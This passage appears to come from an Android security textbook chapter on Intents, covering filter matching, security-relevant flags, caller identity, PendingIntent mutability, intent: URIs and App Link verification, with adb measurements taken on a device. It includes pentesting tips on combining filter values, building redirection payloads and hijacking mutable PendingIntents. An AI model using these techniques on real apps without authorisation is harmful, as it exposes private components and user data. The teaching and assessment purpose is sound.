**A filter does not hold a list of `<data>` tuples. It holds independent *sets*: a set of schemes, a
set of authorities (host+port), a set of paths, and a set of MIME types.** Every `<data>` element
contributes its attributes into those sets. Matching then checks each set independently.

```xml
<!-- These two filters are NOT equivalent to a human, and ARE equivalent to the platform. -->

<!-- (a) two data elements -->
<intent-filter>
    <action android:name="android.intent.action.VIEW"/>
    <category android:name="android.intent.category.DEFAULT"/>
    <data android:scheme="https" android:host="a.example.com"/>
    <data android:scheme="myapp"  android:host="b.example.com"/>
</intent-filter>

<!-- (b) one data element per attribute -->
<intent-filter>
    <action android:name="android.intent.action.VIEW"/>
    <category android:name="android.intent.category.DEFAULT"/>
    <data android:scheme="https"/>
    <data android:scheme="myapp"/>
    <data android:host="a.example.com"/>
    <data android:host="b.example.com"/>
</intent-filter>
```

Both filters accept **all four** combinations: `https://a.example.com`, `https://b.example.com`,
`myapp://a.example.com` **and `myapp://b.example.com`**. The developer who wrote (a) almost certainly
meant two pairs. The platform read four.

Here is that behaviour observed on a real device rather than argued from source. Chrome declares a
filter with four schemes and three MIME types, contributed by separate `<data>` elements:

```text
# measured — Redmi, Android 11 / API 30
# adb shell "dumpsys package com.android.chrome"
      text/html:
        e9c3255 com.android.chrome/com.google.android.apps.chrome.IntentDispatcher filter 3eb29f8
          Action: "android.intent.action.VIEW"
          Category: "android.intent.category.DEFAULT"
          Category: "android.intent.category.BROWSABLE"
          Scheme: "googlechrome"
          Scheme: "http"
          Scheme: "https"
          Scheme: "about"
          StaticType: "text/html"
          StaticType: "text/plain"
          StaticType: "application/xhtml+xml"
```

`dumpsys` prints them as two flat lists — four `Scheme:` lines and three `StaticType:` lines — under
**one** filter object. That is the platform's own data structure telling you the answer: twelve
combinations are accepted, not four pairs, not three.

> **🔍 Pentester's Note**
> This is a finding generator. When you see a deep-link handler with several `<data>` elements, list
> the cross product and test the combinations the developer clearly did not intend. A handler meant
> for `https://checkout.example.com` and `myapp://legacy` will happily accept
> `myapp://checkout.example.com` — and the code behind it frequently branches on scheme *or* host but
> not both.

#### Host, path and MIME wildcards

| Attribute | Wildcard support | Trap |
|---|---|---|
| `android:scheme` | none | Compared **case-sensitively against a lowercased copy**. `HTTPS://` in a URI is normalised by `Uri`, but a filter declaring `HTTPS` will not match. Declare schemes lowercase. |
| `android:host` | leading `*.` only | `*.example.com` matches `a.example.com` **and** `example.com`? No — it matches any host whose suffix is `.example.com`; a bare `example.com` needs its own entry. `android:host="*"` matches everything. |
| `android:port` | none | Only meaningful with a host. A filter with a port matches only URIs that carry that explicit port. |
| `android:path` | none — exact | Matches the path exactly, query string excluded. |
| `android:pathPrefix` | prefix | The classic bypass surface: `pathPrefix="/open"` also matches `/openredirect`, `/open-anything`. |
| `android:pathPattern` | **glob, not regex** | `*` means "zero or more of the *preceding character*". `.*` means "any sequence". `/a*b` matches `/b`, `/ab`, `/aab`. Almost everyone reads it as regex and is wrong. |
| `android:pathSuffix` (API 31) | suffix | Newer; combines with the others as another independent set. |
| `android:pathAdvancedPattern` (API 31) | restricted regex | Supports `.`, `\d`, ranges, `+`, `*`, `?`. Closer to what people expected `pathPattern` to be. |
| `android:mimeType` | `type/*` and `*/*` | Wildcards work on **both** sides — see below. |

#### MIME matching in both directions — measured

The MIME rules are symmetric in a way that surprises people, so here they are measured rather than
recited. Each row is a real `cmd package query-activities` run against `ACTION_SEND` on the test
device:

```bash
# host — note the INNER quotes: adb shell passes the string to the device's sh,
# which will glob-expand */* against the device filesystem if you do not quote it there too.
for t in "text/plain" "text/*" "*/*" "image/png" "application/pdf"; do
  adb shell "cmd package query-activities -a android.intent.action.SEND -t '$t'" | head -1
done
```

```text
# measured — Redmi, Android 11 / API 30
text/plain       14 activities found:
text/*           14 activities found:
*/*              25 activities found:
image/png        18 activities found:
application/pdf  11 activities found:
```

Read those five numbers carefully; four separate rules fall out of them.

- `text/plain` and `text/*` both give **14**. A filter declaring `text/plain` matches an Intent typed
  `text/*`, and a filter declaring `text/*` matches an Intent typed `text/plain`. The wildcard works
  from either side.
- `*/*` gives **25** — the union of every filter that declares any type at all. An Intent typed
  `*/*` matches every typed filter. This is what a "share to" chooser does.
- `application/pdf` gives **11**, and a *made-up* type gives **11** as well on this device: those
  eleven are the components that declare `*/*` in their own filters. They will accept literally
  anything you send them. On a deployed device, eleven components stand ready to receive an arbitrary
  file of an arbitrary claimed type from any app.

> **⚠️ Warning — the quoting trap that will waste an hour of your life**
> `adb shell cmd package query-activities -t "*/*"` does **not** do what you want. Your host shell
> strips the quotes, `adb shell` concatenates the arguments into one string and hands it to the
> *device's* `sh`, which glob-expands `*/*` against the device's root directory. The command silently
> tests the wrong thing. The same applies to `;` inside an `intent:` URI. Always wrap the whole
> device command in one set of quotes and use a second, inner set for arguments:
> `adb shell "cmd package query-activities -t '*/*'"`.

### 3.5 `CATEGORY_BROWSABLE`, and what makes a filter reachable from the web

> **📖 Definition**
> **`android.intent.category.BROWSABLE`** declares that the component may be started by a link in a
> web browser. A browser follows a non-`http(s)` URI, or an `http(s)` URI it decides to hand off, by
> constructing `ACTION_VIEW` with `CATEGORY_BROWSABLE` and calling `startActivity`. A filter without
> `BROWSABLE` will not match, so the browser will not hand off to it.

The security significance is a severity multiplier, not a vulnerability in itself:

| Filter shape | Who can reach it | Typical severity effect |
|---|---|---|
| exported, no `BROWSABLE` | Any installed app | Local |
| exported, `BROWSABLE`, custom scheme | Any installed app, **and any web page** | Remote-triggerable. Usually one severity band higher |
| exported, `BROWSABLE`, `https` + `autoVerify`, **verified** | Any installed app, and web pages **on the verified domain** | Verified App Links are the mitigation; §3.11 |

A `BROWSABLE` deep-link handler turns a "malicious app installed" precondition into "victim clicks a
link", which is a completely different attack economy. When you write the finding, say so explicitly:
*"no malicious application is required; a link in an email is sufficient."*

### 3.6 Match values — the number the resolver actually sorts on

When a filter matches, `IntentFilter.match()` does not return a boolean. It returns an `int` encoding
**how specifically** it matched. The resolver uses that number to rank candidates.

| Constant | Value | Means |
|---|---|---|
| `MATCH_CATEGORY_EMPTY` | `0x00100000` | Matched with no data at all (action/category only) |
| `MATCH_CATEGORY_SCHEME` | `0x00200000` | Matched on scheme only |
| `MATCH_CATEGORY_SCHEME_SPECIFIC_PART` | `0x00580000` | Matched a scheme-specific part (`mailto:`-style) |
| `MATCH_CATEGORY_HOST` | `0x00300000` | Matched scheme + host |
| `MATCH_CATEGORY_PORT` | `0x00400000` | Matched scheme + host + port |
| `MATCH_CATEGORY_PATH` | `0x00500000` | Matched scheme + host + path |
| `MATCH_CATEGORY_TYPE` | `0x00600000` | Matched on MIME type |
| `MATCH_ADJUSTMENT_NORMAL` | `0x00008000` | The default adjustment, OR-ed in |
| `MATCH_CATEGORY_MASK` | `0x0fff0000` | Mask for the category part |
| `MATCH_ADJUSTMENT_MASK` | `0x0000ffff` | Mask for the adjustment part |
| `NO_MATCH_TYPE` | `-1` | Type test failed |
| `NO_MATCH_DATA` | `-2` | Data (URI) test failed |
| `NO_MATCH_ACTION` | `-3` | Action test failed |
| `NO_MATCH_CATEGORY` | `-4` | Category test failed |

These are not abstractions. The platform prints them, and reading them is the fastest way to tell
*why* a component won:

```bash
# host
adb shell "cmd package query-activities -a android.intent.action.VIEW \
    -c android.intent.category.BROWSABLE -d 'https://www.youtube.com/watch?v=abc'"
```

```text
# measured — Redmi, Android 11 / API 30
1 activities found:
  Activity #0:
    priority=0 preferredOrder=1 match=0x508000 specificIndex=-1 isDefault=true
    ActivityInfo:
      name=com.google.android.youtube.UrlActivity
      packageName=com.google.android.youtube
      enabled=true exported=true directBootAware=false
```

`match=0x508000` decomposes as `0x00500000 | 0x8000` — `MATCH_CATEGORY_PATH | MATCH_ADJUSTMENT_NORMAL`.
YouTube won on a **path** match. Four more, measured on the same device in the same session:

| Intent | Measured `match` | Decodes as |
|---|---|---|
| `ACTION_MAIN` + `CATEGORY_LAUNCHER` | `0x108000` | `MATCH_CATEGORY_EMPTY` — no data involved |
| `ACTION_VIEW -d tel:12345` | `0x208000` | `MATCH_CATEGORY_SCHEME` — the dialer's filter declares a scheme and nothing more |
| `ACTION_VIEW -d https://www.youtube.com/watch` | `0x508000` | `MATCH_CATEGORY_PATH` |
| `ACTION_SEND -t text/plain` | `0x608000` | `MATCH_CATEGORY_TYPE` |

> **🔍 Pentester's Note**
> `preferredOrder` and `priority` appear on the same line. `priority` is the filter's declared
> `android:priority`; `preferredOrder` is the user's or the system's *preference* weighting, and on
> the measured YouTube row it is `1` — a set preference, not a filter property. When you are arguing
> about which app "wins" a contested scheme, these three numbers plus App Links verification state
> are the entire answer, and all four are printable. One more measured detail worth knowing: the
> device's Contacts app declares `priority=-1` on its `tel:` handler, deliberately placing itself
> below the dialer. Negative priorities are real and are used for exactly this.

### 3.7 Flags — the ones with security consequences

`Intent` defines roughly forty flags. Most are task-management and belong to chapter 30. These are
the ones that decide security outcomes.

#### URI grant flags — the ones with teeth

| Flag | Value | Effect |
|---|---|---|
| `FLAG_GRANT_READ_URI_PERMISSION` | `0x00000001` | The recipient gains temporary read access to the `content://` URI in `getData()` and in `getClipData()` |
| `FLAG_GRANT_WRITE_URI_PERMISSION` | `0x00000002` | Same, for write |
| `FLAG_GRANT_PERSISTABLE_URI_PERMISSION` | `0x00000040` | The recipient may call `takePersistableUriPermission` and keep it across reboots |
| `FLAG_GRANT_PREFIX_URI_PERMISSION` | `0x00000080` | The grant applies to every URI **beneath** the given path |

> **⚠️ Warning**
> `FLAG_GRANT_*` only takes effect for `content://` URIs and only where the target provider declares
> `android:grantUriPermissions`. What the grant *steals* — and the provider-side rules — is
> [27-ContentProviders](../27-ContentProviders/README.md)'s subject. What matters here is that these
> flags are **fields on the message**, fully attacker-controlled, and they ride along on any Intent
> a vulnerable component forwards. A redirection bug plus these flags is grant laundering.

#### Receiver and resolution flags

| Flag | Value | Effect | Why it matters |
|---|---|---|---|
| `FLAG_RECEIVER_REGISTERED_ONLY` | `0x40000000` | Only dynamically registered receivers get it | Used by the system for broadcasts it does not want to wake apps for |
| `FLAG_RECEIVER_FOREGROUND` | `0x10000000` | Delivered with foreground priority | An attacker uses it to shorten a race window |
| `FLAG_RECEIVER_NO_ABORT` | `0x08000000` | Ordered broadcast cannot be aborted by an earlier receiver | Defence against high-priority interception |
| `FLAG_EXCLUDE_STOPPED_PACKAGES` | `0x00000010` | Skip apps in the stopped state | Default for most system broadcasts since Android 3.1 |
| `FLAG_INCLUDE_STOPPED_PACKAGES` | `0x00000020` | Include them | Malware uses this to wake apps that the user has force-stopped |
| `FLAG_ACTIVITY_NEW_TASK` | `0x10000000` | Start in a new task | Mandatory when starting an Activity from a non-Activity context; every exploit PoC needs it |
| `FLAG_ACTIVITY_CLEAR_TOP` | `0x04000000` | Clear Activities above the target | Used by redirection payloads to land on a specific screen |
| `FLAG_ACTIVITY_NO_HISTORY` | `0x40000000` | Do not keep in the back stack | Attacker hygiene; also legitimate for OAuth screens |
| `FLAG_ACTIVITY_FORWARD_RESULT` | `0x02000000` | The started Activity's result goes to *your* caller, not to you | **Read this row twice.** It is a redirection accelerant — §5.2 |
| `FLAG_ACTIVITY_MULTIPLE_TASK` | `0x08000000` | Always create a new task | Combines with affinity tricks |
| `FLAG_ACTIVITY_LAUNCH_ADJACENT` | `0x00001000` | Split-screen launch | Prerequisite for some overlay/observation scenarios |
| `FLAG_FROM_BACKGROUND` | `0x00000004` | Marks the Intent as not user-initiated | Rarely useful |
| `FLAG_DEBUG_LOG_RESOLUTION` | `0x00000008` | **Ask the system to log its resolution decision** | Your best debugging tool; §7.3 |

> **🔬 Under the Hood — `FLAG_ACTIVITY_FORWARD_RESULT`**
> Normally `startActivityForResult` establishes a result channel from the started Activity back to
> the starter. `FLAG_ACTIVITY_FORWARD_RESULT` re-points that channel one level further out: the newly
> started Activity's result is delivered to *the Activity that started the starter*. It exists so a
> trampoline screen can disappear from the flow. It also means that if a vulnerable component
> forwards an attacker's Intent **with this flag set**, the result — including any URI grant riding
> on it — comes straight back to the attacker with no cooperation from the deputy at all. Add it to
> every redirection payload; it costs one line and occasionally converts a dead end into a finding.

### 3.8 Caller identity — the honest answer

Here is the question, in the form a developer will actually ask it: *"Can I see who sent me this
Intent?"*

**Usually not.** Here is every mechanism that exists, with what it is worth.

| Mechanism | Available in | Trustworthy? | Notes |
|---|---|---|---|
| `Activity.getCallingActivity()` | Activity | **Yes, but** | Returns a `ComponentName` **only if you were started with `startActivityForResult`**. Returns `null` for a plain `startActivity`. Set by the system, not by the caller. |
| `Activity.getCallingPackage()` | Activity | Same as above | Same restriction; same value, package part only. |
| `Activity.getReferrer()` | Activity | **No** | Falls back to `EXTRA_REFERRER`, an ordinary extra the caller writes. Trivially forged. |
| `Intent.EXTRA_REFERRER` / `EXTRA_REFERRER_NAME` | any | **No** | An extra. Attacker-authored. |
| `Binder.getCallingUid()` in a **Service's** `onBind`/transaction | Service | **Yes** | This is the Binder identity stamp — the only strong answer, and it is available on the Binder path, not the Intent path. |
| `Binder.getCallingUid()` in a `BroadcastReceiver.onReceive` | Receiver | **No** — returns your own UID | By the time `onReceive` runs you are on your own thread; the sender's identity is long gone. |
| `Binder.getCallingUid()` in `Activity.onCreate` | Activity | **No** — returns your own UID | Same reason. A very common mistake in "secure" code. |
| `PendingIntent.getCreatorPackage()` / `getCreatorUid()` | receiver of a `PendingIntent` | **Yes** | The system fills these in from the *creator*'s identity. §3.9 — and this is the one good identity primitive in the whole Intent world. |
| `ActivityManager.getRunningTasks()` etc. | any | **No** | Restricted since API 21 and unreliable. |
| `Activity.getLaunchedFromPackage()` | Activity (API 34) | Yes, system-set | New; not available on the measured API 30 device. Useful going forward. |

> **🧠 Mental Model**
> Three tiers, and you should be able to place any identity claim into one instantly:
>
> 1. **Kernel-stamped** — `Binder.getCallingUid()` on a live Binder transaction. Unforgeable. This is
>    Binder's contribution and chapter 25's subject.
> 2. **System-stamped** — `getCallingActivity()` (only after `startActivityForResult`) and
>    `PendingIntent.getCreator*()`. `system_server` fills these from data it holds, not from the
>    message. Trustworthy, narrow, easy to forget exists.
> 3. **Message-carried** — everything else: extras, `EXTRA_REFERRER`, a `"caller"` string, the
>    `Uri`'s query parameters. **Attacker-authored.** Zero evidential value.
>
> When you review code that authorises a caller, find which tier it is reading from. A surprising
> amount of production Android security code reads tier 3 and believes it is reading tier 1.

#### Why an Activity cannot use `Binder.getCallingUid()`

The Binder identity stamp is **per-thread and per-transaction**. When `system_server` receives your
`startActivity` call, the stamp is present *on that thread inside system_server*, and
`ActivityTaskManagerService` reads it there to make the export and permission decisions. Delivering
the Activity to the target is a **separate, later** transaction, originating from `system_server`. By
the time the target's `onCreate` runs, the only calling identity in scope is the target's own.

That is not an oversight; it is the design. `system_server` did the check *for* you, using an
identity you could not have obtained. The problem is that it checked only one thing — "is this
component exported and does the caller hold the declared permission" — and it cannot check the thing
you actually care about, which is "should *this* caller be allowed to do *this*".

#### The correct patterns, as code

```java
// examples/caller-identity-patterns.java
// PATTERN A — you need to know the caller, and a result channel is acceptable.
// Only works when the caller used startActivityForResult.
ComponentName caller = getCallingActivity();
if (caller == null) {
    // Started with plain startActivity, or from a PendingIntent, or from shell.
    // You have NO identity. Fail closed if identity matters.
    finish();
    return;
}
String callerPkg = caller.getPackageName();
// A package NAME is still not an identity: package names are not unique across
// devices unless the app is installed from a store. Bind it to a signature.
if (!SignatureCheck.isTrusted(this, callerPkg)) { finish(); return; }
```

```java
// PATTERN B — the strong one. Expose the operation over a bound Service and read
// the kernel-stamped uid inside the Binder transaction.
private final IMyApi.Stub mBinder = new IMyApi.Stub() {
    @Override public String readSecret() {
        int uid = Binder.getCallingUid();        // stamped by the kernel; unforgeable
        if (!AllowList.contains(getPackageManager(), uid)) {
            throw new SecurityException("uid " + uid + " not permitted");
        }
        return secret();
    }
};
```

```java
// PATTERN C — the permission system, which is the platform's own answer.
// Declare a signature-level permission; only apps signed by your key can hold it.
// AndroidManifest.xml:
//   <permission android:name="com.example.permission.ADMIN"
//               android:protectionLevel="signature"/>
//   <activity android:name=".AdminActivity" android:exported="true"
//             android:permission="com.example.permission.ADMIN"/>
// Nothing to write in Java. system_server enforces it before you are started.
```

> **⚠️ Warning**
> `getCallingPackage()` returning a package name is **not** the same as knowing the caller is that
> app. Package names are attacker-choosable on a device where the attacker controls installation
> (sideloading, a rooted device, or simply an unclaimed name). Always resolve the package to its
> signing certificate via `PackageManager.getPackageInfo(pkg, GET_SIGNING_CERTIFICATES)` and compare
> the certificate digest, not the name. A signature-level permission (Pattern C) does this for you
> and is what you should recommend in a report.

### 3.9 `PendingIntent` — a capability you hand to someone else

> **📖 Definition**
> A **`PendingIntent`** is a token that wraps an `Intent` **together with your app's identity and
> permissions**. When another process fires it, the Intent is sent **as if your app had sent it** —
> from your UID, with your permissions, able to reach your non-exported components. The other
> process never sees a UID change; the system performs the send on your behalf.

That is the entire concept, and it explains both why the API exists and why it is dangerous.

**Why it exists:** you want the notification shade to launch your Activity when tapped. The
notification is drawn by `system_server`, which cannot start your private Activity. You give it a
`PendingIntent`; it fires it; the Activity starts as if you had started it. The same mechanism serves
`AlarmManager`, `AppWidget`, `JobScheduler`, `MediaSession`, and any app-to-app "call me back" flow.

#### The four creation methods and their flags

```java
PendingIntent.getActivity(Context, int requestCode, Intent, int flags)
PendingIntent.getBroadcast(Context, int requestCode, Intent, int flags)
PendingIntent.getService(Context, int requestCode, Intent, int flags)
PendingIntent.getForegroundService(Context, int requestCode, Intent, int flags)   // API 26+
```

| Flag | Value | Meaning |
|---|---|---|
| `FLAG_ONE_SHOT` | `0x40000000` | Can be fired once, then cancelled automatically |
| `FLAG_NO_CREATE` | `0x20000000` | Return `null` rather than creating; used to *test* for existence |
| `FLAG_CANCEL_CURRENT` | `0x10000000` | Cancel any existing matching `PendingIntent` first |
| `FLAG_UPDATE_CURRENT` | `0x08000000` | Keep the existing token but replace its extras |
| `FLAG_IMMUTABLE` | `0x04000000` | **The recipient cannot modify the wrapped Intent** (API 23+) |
| `FLAG_MUTABLE` | `0x02000000` | Explicitly permit modification (API 31+) |
| `FLAG_ALLOW_UNSAFE_IMPLICIT_INTENT` | `0x04000000` in `PendingIntent`'s newer set | Opt back in to wrapping an implicit Intent, API 34+ |

#### What a mutable `PendingIntent` hands an attacker

This is the part that must be exactly right, because it is routinely mis-stated.

A `PendingIntent` is fired with `send()`. The `send()` overloads accept a **fill-in Intent**:

```java
pendingIntent.send(context, code, fillInIntent);
```

The system merges `fillInIntent` into the wrapped Intent using `Intent.fillIn()`. `fillIn()` follows
one rule: **a field is copied from the fill-in only if the base Intent's corresponding field is
unset, or if the matching `FILL_IN_*` flag is passed.**

| Base Intent field | Copied from fill-in when… | Override flag |
|---|---|---|
| action | base action is `null` | `FILL_IN_ACTION` |
| data / type | base data **and** type are `null` | `FILL_IN_DATA` |
| categories | always **added** (union) | `FILL_IN_CATEGORIES` |
| component | base component is `null` | `FILL_IN_COMPONENT` — **not settable by the sender**, only by the creator |
| package | base package is `null` | `FILL_IN_PACKAGE` |
| extras | **always merged; fill-in extras with new keys are added** | — |
| clipData | base clipData is `null` | `FILL_IN_CLIP_DATA` |
| flags — `FLAG_GRANT_*` | copied through | — |

So, concretely, given a `PendingIntent` created **mutable** and wrapping an Intent with **no
component set**:

- The attacker supplies a fill-in with `setComponent(victimPkg/.NonExportedActivity)`. The base
  component is null, so it is taken.
- The `send()` is executed by `system_server` **as the creator's UID**.
- A non-exported component of the creator has just been started by an unrelated app.

And given a mutable `PendingIntent` wrapping an Intent that *does* have a component but no data:

- The attacker cannot change the target, but **can add extras and can set the data URI** — including
  a `content://` URI plus `FLAG_GRANT_READ_URI_PERMISSION`, which the creator's identity then grants.

> **🧠 Mental Model**
> A mutable `PendingIntent` with an empty component is a **blank signed cheque**: the payee line is
> empty, and the signature is your app's UID. `FLAG_IMMUTABLE` is writing the payee in indelible ink
> before you hand it over.

#### The API 31 mandate

| targetSdk | Behaviour | What it means for you |
|---|---|---|
| ≤ 22 | No `FLAG_IMMUTABLE` in the API at all (added API 23) | Every `PendingIntent` on such an app is mutable |
| 23 – 30 | `FLAG_IMMUTABLE` available, **default is mutable** | The overwhelming majority of real-world vulnerable code lives here |
| **31+** | **`FLAG_IMMUTABLE` or `FLAG_MUTABLE` must be specified explicitly, or `IllegalArgumentException` at creation** | Nobody can be accidentally mutable any more — but plenty of code "fixed" this by pasting `FLAG_MUTABLE` |
| 34+ | A mutable `PendingIntent` wrapping an **implicit** Intent cannot be delivered to a non-exported component of the creator, unless `FLAG_ALLOW_UNSAFE_IMPLICIT_INTENT` is set | The platform closed the most-exploited shape specifically |

> **🔍 Pentester's Note**
> The API 31 mandate is why "is this app's `PendingIntent` usage safe?" is a *different question* on
> a modern app than it was in 2020. On `targetSdk >= 31` the code compiles only with an explicit
> choice, so grep for `FLAG_MUTABLE` and examine **every** occurrence: each one is a developer who
> had the question put to them and answered "mutable". Then ask the only question that matters — does
> the wrapped Intent have its component set? A mutable `PendingIntent` with a fully explicit inner
> Intent, no grant flags and no attacker-usable extras is a legitimate pattern (it is how
> `RemoteViews` and reply-in-notification work). A mutable one with a bare `new Intent()` is a
> critical finding.

#### Where `PendingIntent`s leak out of an app

| Sink | How the attacker gets it |
|---|---|
| `Notification` actions and `contentIntent` | A `NotificationListenerService` (a permission the user can grant) reads the notification and extracts the `PendingIntent` |
| An extra in an ordinary Intent sent to an exported component | Directly |
| `Bundle` returned from an exported `ContentProvider.call()` | Directly |
| `AppWidget` `RemoteViews` | Any app that can host widgets |
| `MediaSession`, `Slice`, `TileService` payloads | System-mediated but reachable |
| An `IBinder` callback interface argument | Directly |

### 3.10 The `intent:` URI scheme — an Intent as text

`Intent.parseUri()` / `Intent.toUri()` serialise an Intent to and from a URI string. This exists so an
Intent can travel through channels that only carry text — a web page, an `<a href>`, a log line, a
push notification payload, an extra of type `String`.

```text
intent:<data-uri-part>#Intent;
    scheme=<scheme>;
    action=<action>;
    category=<category>;        (repeatable)
    package=<package>;
    component=<pkg>/<cls>;
    launchFlags=0x<hex>;
    S.<key>=<string value>;
    i.<key>=<int>;  l.<key>=<long>;  f.<key>=<float>;  d.<key>=<double>;
    B.<key>=<byte>; b.<key>=<boolean>; c.<key>=<char>; s.<key>=<short>;
    SEL;<nested selector spec>;
    end
```

Measured, with correct quoting for the device shell:

```bash
# host
adb shell "am start 'intent:#Intent;action=android.intent.action.VIEW;scheme=https;S.probe=hello;i.n=7;end'"
```

```text
# measured — Redmi, Android 11 / API 30
Starting: Intent { act=android.intent.action.VIEW dat=https:///... (has extras) }
```

Note what happened and what did not. The string extras were carried (`has extras`). The `;`
separators required an inner set of quotes, because `adb shell` hands the whole line to the device's
`sh` and `;` is a shell separator there. Without the inner quotes:

```text
# measured — the SAME command without inner quotes
Error: Activity not started, unable to resolve Intent { act=android.intent.action.VIEW dat=intent: }
/system/bin/sh: S.probe=hello: inaccessible or not found
/system/bin/sh: end: inaccessible or not found
```

The command did not fail loudly enough to notice — the first line looks like a resolution failure,
not a quoting failure, and a tester in a hurry concludes the target does not accept the Intent.

> **⚠️ Warning — what `intent:` URIs can and cannot express**
> `Intent.parseUri` supports **primitive** extras only. There is no syntax for a `Parcelable` extra,
> and therefore **no way to nest an `Intent` inside an `intent:` URI**. This has a direct consequence
> for testing: the Parcelable flavour of intent redirection (a component reading
> `getParcelableExtra("next")` and starting it) **cannot be triggered from `adb shell` or from a web
> page.** It requires a real attacker application. The *String* flavour — a component reading a
> `String` extra or a URI query parameter and passing it to `Intent.parseUri` — **can** be triggered
> from both. §5.2 treats them as two distinct sub-classes for exactly this reason, and lab 01 ships an
> attacker app because there is no shortcut.
>
> Chrome and other browsers additionally restrict `intent:` handling: `parseUri` with the
> `URI_ANDROID_APP_SCHEME`/browser flags strips `FLAG_GRANT_*` and forces `CATEGORY_BROWSABLE` and a
> null component. Do not assume a web-reachable `intent:` URI has the same power as an app-built one.

### 3.11 Deep links, App Links, and verification state

Three terms are used interchangeably in the wild and mean quite different things. Getting them right
is most of the value you add on a deep-link finding.

| Term | Definition | Exclusive? |
|---|---|---|
| **Deep link** | Any URI that opens a specific screen in an app, via an `<intent-filter>` with a `<data>` element. Includes custom schemes. | **No.** Any app may declare any scheme and host. |
| **Custom-scheme deep link** | A deep link whose scheme is app-invented, e.g. `myapp://`. | **No**, and unverifiable in principle — there is nobody to ask who owns `myapp`. |
| **Web link / unverified `http(s)` deep link** | An `http`/`https` filter without `autoVerify`, or with `autoVerify` that has not verified. | **No.** Competes with the browser and with any other app. |
| **Android App Link** | An `https` filter with `android:autoVerify="true"` **whose verification has succeeded**. | **Yes** — the platform routes matching links to this app with no dialog. |

#### How verification works



The file the platform fetches:

```json
[{
  "relation": ["delegate_permission/common.handle_all_urls"],
  "target": {
    "namespace": "android_app",
    "package_name": "com.example.target",
    "sha256_cert_fingerprints": ["11:22:33:...:FF"]
  }
}]
```

Four failure modes account for essentially every unverified App Link you will find in the field, and
each is a real finding with a different remediation:

| Failure | Cause | What the user sees |
|---|---|---|
| File missing or 404 | Nobody deployed it | A chooser, or the browser wins |
| File served over HTTP, or with a redirect to another host | Misconfigured CDN | Same |
| Fingerprint is the **debug** certificate | The developer generated it from a debug build and never updated it for the Play-signed release | Same. Extremely common, because Play App Signing re-signs the APK and the digest changes |
| `package_name` mismatch (flavour suffix such as `.prod`) | Build variants | Same |

> **🔍 Pentester's Note — `autoVerify="true"` is a *request*, not a state**
> Reading `android:autoVerify="true"` out of a manifest tells you what the developer **asked for**.
> It tells you nothing about what happened. An app whose `assetlinks.json` is missing has an
> `autoVerify` filter that behaves *exactly* like an ordinary deep link — any app can compete for it,
> and a chooser dialog is the only thing between the user and an attacker. **An `autoVerify` filter
> that is not verified is the finding**, and it is invisible in the APK. You must measure it on a
> device.

#### Measuring verification state — and the command differs by version

This is where a documentation-only chapter would mislead you. The canonical command everybody quotes
is:

```bash
# host — Android 12 (API 31) and later ONLY
adb shell pm get-app-links com.example.target
adb shell pm verify-app-links --re-verify com.example.target
adb shell pm set-app-links --package com.example.target 0 all
adb shell pm reset-app-links com.example.target
```

On the test device that command does not exist:

```text
# measured — Redmi, Android 11 / API 30
$ adb shell pm get-app-links
Unknown command: get-app-links
```

Android 11 and earlier use the **legacy** verification subsystem (`IntentFilterVerificationService`),
which has an entirely different command set:

```bash
# host — Android 11 (API 30) and earlier
adb shell pm get-app-link com.example.target             # singular "link", no "s"
adb shell pm set-app-link com.example.target always      # always | ask | never | undefined
adb shell dumpsys package domain-preferred-apps          # the full table
```

Measured on the device, the legacy table is genuinely informative:

```text
# measured — Redmi, Android 11 / API 30
# adb shell dumpsys package domain-preferred-apps

App verification status:

  Package: com.google.android.youtube
  Domains: youtu.be m.youtube.com youtube.com www.youtube.com studio.youtube.com oauth-redirect.googleusercontent.com
  Status:  ask

  Package: com.vendor.marketplace
  Domains: shopvdr.example www.shopvendor.example.ae www.shopvendor.example.de www.shopvendor.example.in business.shopvendor.example.in dl.shopvendor.example.ae dl.shopvendor.example.in www.shopvendor.example.jp www.shopvendor.example.uk www.shopvendor.example
  Status:  always : 200000000

  Package: com.google.android.apps.docs
  Domains: one.google.com * docs.google.com drive.google.com icing.drive.google.com client-side-encryption.google.com spreadsheets.google.com krahsc.google.com
  Status:  ask
```

Three things in that output are worth an assessor's attention, and all three were found by running
one command rather than by reading a manifest:

1. **`Status: ask`** on YouTube — including on `oauth-redirect.googleusercontent.com`. On this device,
   in this state, those domains do **not** route exclusively. A competing app that declares the same
   host produces a chooser. That is precisely the precondition
   [45-OAuth lab-03](../45-OAuth/labs/lab-03-scheme-hijack.md) needs, observed on a stock consumer
   device.
2. **`Status: always : 200000000`** on the marketplace app — the app is the user's/OEM's set default for those
   domains. The number is the preference generation; what matters is that "always" here is a
   *preference*, not a cryptographic verification, and it can be reset by the user or by
   `pm set-app-link ... undefined`.
3. **A bare `*` in Google Docs' domain list.** A wildcard host. Any host at all matches that filter
   entry. On a verified App Link a wildcard cannot be verified (there is no domain to fetch
   `assetlinks.json` from), so an entry like this can only ever be an ordinary deep link — and it
   means the component behind it receives `ACTION_VIEW` for arbitrary hosts.

> **🔍 Pentester's Note — the two readers can disagree, and you must say so**
> On the same device, in the same session, the two API-30 readers gave different answers for the same
> package:
>
> ```text
> # measured — Redmi, Android 11 / API 30
> $ adb shell "pm get-app-link com.google.android.youtube"
> always
>
> $ adb shell "dumpsys package domain-preferred-apps" | grep -A3 youtube
>   Package: com.google.android.youtube
